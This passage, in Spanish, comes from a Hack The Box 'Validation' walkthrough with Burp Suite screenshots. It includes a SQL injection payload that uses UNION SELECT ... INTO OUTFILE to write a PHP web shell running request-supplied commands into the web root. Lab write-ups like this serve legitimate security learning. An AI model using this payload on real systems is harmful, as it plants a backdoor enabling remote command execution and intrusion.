   <img src="/assets/images/htb/validation/burp15.png" alt="17" width="2200">
</p>
Vemos como nos lo interpreta y se almacena el el sistema, por lo que intentaremos de mandar código php para poder ejecturar comandos


<p align="center">
  <img src="/assets/images/htb/validation/burp16.png" alt="18" width="2200">
</p>

- **Comando:**

```php
' union SELECT "<?php system($_REQUEST['cmd']); ?>" into outfile "/var/www/html/prueba.php"-- -
```


<p align="center">